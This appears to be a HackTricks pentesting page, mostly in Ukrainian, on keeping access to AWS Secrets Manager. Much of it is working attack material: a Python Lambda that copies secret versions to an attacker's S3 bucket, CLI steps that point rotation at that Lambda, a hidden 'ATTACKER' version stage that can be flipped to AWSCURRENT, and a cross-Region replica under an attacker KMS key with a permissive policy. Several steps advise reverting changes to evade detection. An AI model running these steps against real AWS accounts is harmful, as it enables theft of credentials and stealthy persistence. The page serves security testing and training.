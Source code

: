 # AWS - Secrets Manager Персистентність

{{#include ../../../../banners/hacktricks-training.md}}

## Secrets Manager

Для отримання додаткової інформації див.:

{{#ref}}
../../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### Через Resource Policies

Можна **надавати доступ до секретів зовнішнім акаунтам** через resource policies. Дивіться [**Secrets Manager Privesc page**](../../aws-privilege-escalation/aws-secrets-manager-privesc/README.md) для більш детальної інформації. Зверніть увагу, що щоб **отримати доступ до секрету**, зовнішньому акаунту також **потрібен доступ до KMS key, який шифрує секрет**.

### Через Secrets Rotate Lambda

Щоб автоматично **rotate secrets**, викликається налаштований **Lambda**. Якщо нападник зможе **змінити** **code**, він міг би безпосередньо **exfiltrate the new secret** собі.

Ось як може виглядати lambda code для такої дії:
```python
import boto3

def rotate_secrets(event, context):
# Create a Secrets Manager client
client = boto3.client('secretsmanager')

# Retrieve the current secret value
secret_value = client.get_secret_value(SecretId='example_secret_id')['SecretString']

# Rotate the secret by updating its value
new_secret_value = rotate_secret(secret_value)
client.update_secret(SecretId='example_secret_id', SecretString=new_secret_value)

def rotate_secret(secret_value):
# Perform the rotation logic here, e.g., generate a new password

# Example: Generate a new password
new_secret_value = generate_password()

return new_secret_value

def generate_password():
# Example: Generate a random password using the secrets module
import secrets
import string
password = ''.join(secrets.choice(string.ascii_letters + string.digits) for i in range(16))
return password
```
### Замінити rotation Lambda на функцію, контрольовану атакуючим, через RotateSecret

Зловживайте `secretsmanager:RotateSecret`, щоб переприв’язати секрет до rotation Lambda, контрольованої атакуючим, і викликати негайну ротацію. Зловмисна функція експфільтрує версії секрету (AWSCURRENT/AWSPENDING) під час кроків ротації (createSecret/setSecret/testSecret/finishSecret) у сховище атакуючого (наприклад, S3 або зовнішній HTTP).

- Вимоги
- Права доступу: `secretsmanager:RotateSecret`, `lambda:InvokeFunction` на attacker Lambda, `iam:CreateRole/PassRole/PutRolePolicy` (або AttachRolePolicy) для надання ролі виконання Lambda прав `secretsmanager:GetSecretValue` і бажано `secretsmanager:PutSecretValue`, `secretsmanager:UpdateSecretVersionStage` (щоб ротація продовжувала працювати), KMS `kms:Decrypt` для KMS-ключа секрету, та `s3:PutObject` (або вихідний трафік) для експфільтрації.
- Цільовий secret id (`SecretId`) з увімкненою ротацією або можливістю увімкнути ротацію.

- Наслідки
- Атакуючий отримує значення(я) секрету без модифікації легітимного коду ротації. Змінюється лише конфігурація ротації, щоб вказувати на Lambda атакуючого. Якщо це не помітять, заплановані майбутні ротації також і далі будуть викликати функцію атакуючого.

- Кроки атаки (CLI)
1) Підготуйте місце для експфільтрації атакуючого та роль для Lambda
- Створіть S3 bucket для експфільтрації та роль виконання, якій довіряє Lambda, з правами читати секрет і записувати в S3 (плюс логи/KMS за потреби).
2) Розгорніть attacker Lambda, яка на кожному кроці ротації отримує значення(я) секрету і записує їх в S3. Мінімальна логіка ротації може просто копіювати AWSCURRENT в AWSPENDING і просувати його у finishSecret, щоб сервіс працював коректно.
3) Переприв'яжіть ротацію і запустіть
- `aws secretsmanager rotate-secret --secret-id <SECRET_ARN> --rotation-lambda-arn <ATTACKER_LAMBDA_ARN> --rotation-rules '{"ScheduleExpression":"rate(10 days)"}' --rotate-immediately`
4) Перевірте експфільтрацію, перерахувавши префікс S3 для цього секрету та проінспектувавши JSON-артефакти.
5) (За бажанням) Відновіть оригінальну rotation Lambda, щоб зменшити ймовірність виявлення.

- Приклад attacker Lambda (Python), яка експфільтрує в S3
- Environment: `EXFIL_BUCKET=<bucket>`
- Handler: `lambda_function.lambda_handler`
```python
import boto3, json, os, base64, datetime
s3 = boto3.client('s3')
sm = boto3.client('secretsmanager')
BUCKET = os.environ['EXFIL_BUCKET']

def write_s3(key, data):
s3.put_object(Bucket=BUCKET, Key=key, Body=json.dumps(data).encode('utf-8'), ContentType='application/json')

def lambda_handler(event, context):
sid, token, step = event['SecretId'], event['ClientRequestToken'], event['Step']
# Exfil both stages best-effort
def getv(**kw):
try:
r = sm.get_secret_value(**kw)
return {'SecretString': r.get('SecretString')} if 'SecretString' in r else {'SecretBinary': base64.b64encode(r['SecretBinary']).decode('utf-8')}
except Exception as e:
return {'error': str(e)}
current = getv(SecretId=sid, VersionStage='AWSCURRENT')
pending = getv(SecretId=sid, VersionStage='AWSPENDING')
key = f"{sid.replace(':','_')}/{step}/{token}.json"
write_s3(key, {'time': datetime.datetime.utcnow().strftime('%Y-%m-%dT%H:%M:%SZ'), 'step': step, 'secret_id': sid, 'token': token, 'current': current, 'pending': pending})
# Minimal rotation (optional): copy current->pending and promote in finishSecret
# (Implement createSecret/finishSecret using PutSecretValue and UpdateSecretVersionStage)
```
### Version Stage Hijacking for Covert Persistence (custom stage + fast AWSCURRENT flip)

Зловживання маркуванням версій Secrets Manager для встановлення версії секрету під контролем атакуючого і приховування її під кастомним stage (наприклад, `ATTACKER`), поки production продовжує використовувати оригінальний `AWSCURRENT`. У будь-який момент перемістіть `AWSCURRENT` на версію атакуючого, щоб отруїти залежні робочі навантаження, а потім відновіть її для мінімізації виявлення. Це забезпечує приховану бекдор-persistence та швидку маніпуляцію часом використання без зміни імені секрету або конфігурації rotation.

- Requirements
- Permissions: `secretsmanager:PutSecretValue`, `secretsmanager:UpdateSecretVersionStage`, `secretsmanager:DescribeSecret`, `secretsmanager:ListSecretVersionIds`, `secretsmanager:GetSecretValue` (for verification)
- Target secret id in the Region.

- Impact
- Підтримувати приховану, під контролем атакуючого версію секрету та атомарно переключати `AWSCURRENT` на неї за потреби, впливаючи на будь-якого споживача, який резолвить те саме ім'я секрету. Швидке переключення і швидке відновлення знижують ймовірність виявлення, одночасно дозволяючи компрометацію в момент використання.

- Attack steps (CLI)
- Preparation
- `export SECRET_ID=<target secret id or arn>`

<details>
<summary>CLI commands</summary>
```bash
# 1) Capture current production version id (the one holding AWSCURRENT)
CUR=$(aws secretsmanager list-secret-version-ids \
--secret-id "$SECRET_ID" \
--query "Versions[?contains(VersionStages, AWSCURRENT)].VersionId | [0]" \
--output text)

# 2) Create attacker version with known value (this will temporarily move AWSCURRENT)
BACKTOK=$(uuidgen)
aws secretsmanager put-secret-value \
--secret-id "$SECRET_ID" \
--client-request-token "$BACKTOK" \
--secret-string {backdoor:hunter2!}

# 3) Restore production and hide attacker version under custom stage
aws secretsmanager update-secret-version-stage \
--secret-id "$SECRET_ID" \
--version-stage AWSCURRENT \
--move-to-version-id "$CUR" \
--remove-from-version-id "$BACKTOK"

aws secretsmanager update-secret-version-stage \
--secret-id "$SECRET_ID" \
--version-stage ATTACKER \
--move-to-version-id "$BACKTOK"

# Verify stages
aws secretsmanager list-secret-version-ids --secret-id "$SECRET_ID" --include-deprecated

# 4) On-demand flip to the attacker’s value and revert quickly
aws secretsmanager update-secret-version-stage \
--secret-id "$SECRET_ID" \
--version-stage AWSCURRENT \
--move-to-version-id "$BACKTOK" \
--remove-from-version-id "$CUR"

# Validate served plaintext now equals the attacker payload
aws secretsmanager get-secret-value --secret-id "$SECRET_ID" --query SecretString --output text

# Revert to reduce detection
aws secretsmanager update-secret-version-stage \
--secret-id "$SECRET_ID" \
--version-stage AWSCURRENT \
--move-to-version-id "$CUR" \
--remove-from-version-id "$BACKTOK"
```
</details>

- Примітки
- When you supply `--client-request-token`, Secrets Manager uses it as the `VersionId`. Adding a new version without explicitly setting `--version-stages` moves `AWSCURRENT` to the new version by default, and marks the previous one as `AWSPREVIOUS`.


### Cross-Region Replica Promotion Backdoor (replicate ➜ promote ➜ permissive policy)

Abuse Secrets Manager multi-Region replication to create a replica of a target secret into a less-monitored Region, encrypt it with an attacker-controlled KMS key in that Region, then promote the replica to a standalone secret and attach a permissive resource policy granting attacker read access. The original secret in the primary Region remains unchanged, yielding durable, stealthy access to the secret value via the promoted replica while bypassing KMS/policy constraints on the primary.

- Вимоги
- Permissions: `secretsmanager:ReplicateSecretToRegions`, `secretsmanager:StopReplicationToReplica`, `secretsmanager:PutResourcePolicy`, `secretsmanager:GetResourcePolicy`, `secretsmanager:DescribeSecret`.
- In the replica Region: `kms:CreateKey`, `kms:CreateAlias`, `kms:CreateGrant` (or `kms:PutKeyPolicy`) to allow the attacker principal `kms:Decrypt`.
- An attacker principal (user/role) to receive read access to the promoted secret.

- Вплив
- Persistent cross-Region access path to the secret value through a standalone replica under an attacker-controlled KMS CMK and permissive resource policy. The primary secret in the original Region is untouched.

- Атака (CLI)
- Змінні
```bash
export R1=<primary-region>   # e.g., us-east-1
export R2=<replica-region>   # e.g., us-west-2
export SECRET_ID=<secret name or ARN in R1>
export ACCOUNT_ID=$(aws sts get-caller-identity --query Account --output text)
export ATTACKER_ARN=<arn:aws:iam::<ACCOUNT_ID>:user/<attacker> or role>
```
1) Створити KMS key, контрольований зловмисником, у replica Region
```bash
cat > /tmp/kms_policy.json <<'JSON'
{"Version":"2012-10-17","Statement":[
{"Sid":"EnableRoot","Effect":"Allow","Principal":{"AWS":"arn:aws:iam::${ACCOUNT_ID}:root"},"Action":"kms:*","Resource":"*"}
]}
JSON
KMS_KEY_ID=$(aws kms create-key --region "$R2" --description "Attacker CMK for replica" --policy file:///tmp/kms_policy.json \
--query KeyMetadata.KeyId --output text)
aws kms create-alias --region "$R2" --alias-name alias/attacker-sm --target-key-id "$KMS_KEY_ID"
# Allow attacker to decrypt via a grant (or use PutKeyPolicy to add the principal)
aws kms create-grant --region "$R2" --key-id "$KMS_KEY_ID" --grantee-principal "$ATTACKER_ARN" --operations Decrypt DescribeKey
```
2) Реплікувати secret у R2, використовуючи attacker KMS key
```bash
aws secretsmanager replicate-secret-to-regions --region "$R1" --secret-id "$SECRET_ID" \
--add-replica-regions Region=$R2,KmsKeyId=alias/attacker-sm --force-overwrite-replica-secret
aws secretsmanager describe-secret --region "$R1" --secret-id "$SECRET_ID" | jq '.ReplicationStatus'
```
3) Перетворити репліку на автономний екземпляр у R2
```bash
# Use the secret name (same across Regions)
NAME=$(aws secretsmanager describe-secret --region "$R1" --secret-id "$SECRET_ID" --query Name --output text)
aws secretsmanager stop-replication-to-replica --region "$R2" --secret-id "$NAME"
aws secretsmanager describe-secret --region "$R2" --secret-id "$NAME"
```
4) Прикріпити пермісивну політику ресурсу до standalone secret у R2
```bash
cat > /tmp/replica_policy.json <<JSON
{"Version":"2012-10-17","Statement":[{"Sid":"AttackerRead","Effect":"Allow","Principal":{"AWS":"${ATTACKER_ARN}"},"Action":["secretsmanager:GetSecretValue"],"Resource":"*"}]}
JSON
aws secretsmanager put-resource-policy --region "$R2" --secret-id "$NAME" --resource-policy file:///tmp/replica_policy.json --block-public-policy
aws secretsmanager get-resource-policy --region "$R2" --secret-id "$NAME"
```
5) Прочитайте секрет від attacker principal у R2
```bash
# Configure attacker credentials and read
aws secretsmanager get-secret-value --region "$R2" --secret-id "$NAME" --query SecretString --output text
```
{{#include ../../../../banners/hacktricks-training.md}}
